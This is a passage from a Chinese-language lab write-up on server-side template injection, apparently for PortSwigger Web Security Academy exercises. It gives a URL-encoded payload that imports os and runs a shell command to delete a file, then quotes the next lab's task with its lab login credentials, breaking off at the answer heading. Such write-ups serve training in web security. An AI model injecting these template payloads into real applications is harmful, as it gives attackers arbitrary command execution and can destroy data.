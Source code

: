 于是尝试命令执行，这里是 python 语言

```
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
```

<img src=".\图片\Snipaste_2023-08-01_14-26-55.png" alt="Snipaste_2023-08-01_14-26-55" style="zoom:80%;" />

然后去文章评论去刷新便可以触发执行命令了

## Lab3

### 题目

```
Lab: Server-side template injection using documentation
PRACTITIONER

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:

content-manager:C0nt3ntM4n4g3r
```

### 答案
